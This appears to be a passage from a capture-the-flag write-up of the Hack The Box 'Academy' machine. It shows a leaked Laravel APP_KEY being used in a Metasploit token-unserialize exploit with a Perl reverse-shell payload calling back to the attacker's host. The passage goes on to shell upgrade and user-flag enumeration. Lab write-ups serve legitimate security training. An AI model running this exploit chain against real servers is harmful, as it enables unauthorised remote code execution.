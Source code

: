 ```
APP_KEY 	"base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
```

```
┌──(nabla㉿kali)-[~]
└─$ vim exploit.rc

use exploit/unix/http/laravel_token_unserialize_exec
set PAYLOAD cmd/unix/reverse_perl
set RHOSTS dev-staging-01.academy.htb
set TARGETURI /
set RPORT 80
set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
set LHOST 10.10.14.18
set LPORT 1234
set Proxies http:127.0.0.1:8080
set ReverseAllowProxy true
run
```

```
┌──(nabla㉿kali)-[~]
└─$ msfconsole -q -r exploit.rc

[SNIP]

[*] Started reverse TCP handler on 10.10.14.18:1234 
[*] Command shell session 1 opened (10.10.14.18:1234 -> 10.10.10.215:52896) at 2025-06-26 06:04:39 -0500

python3 -c 'import pty; pty.spawn("/bin/bash")'

www-data@academy:/var/www/html/htb-academy-dev-01/public$
```

```
www-data@academy:/var/www/html/htb-academy-dev-01/public$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
www-data@academy:/var/www$ ls -l /home

total 24
drwxr-xr-x 2 21y4d    21y4d    4096 Aug 10  2020 21y4d
drwxr-xr-x 2 ch4p     ch4p     4096 Aug 10  2020 ch4p
drwxr-xr-x 4 cry0l1t3 cry0l1t3 4096 Aug 12  2020 cry0l1t3
drwxr-xr-x 3 egre55   egre55   4096 Aug 10  2020 egre55
drwxr-xr-x 2 g0blin   g0blin   4096 Aug 10  2020 g0blin
drwxr-xr-x 5 mrb3n    mrb3n    4096 Aug 12  2020 mrb3n
```

```
www-data@academy:/var/www$ find /home -iname user.txt 2> /dev/null

/home/cry0l1t3/user.txt
```
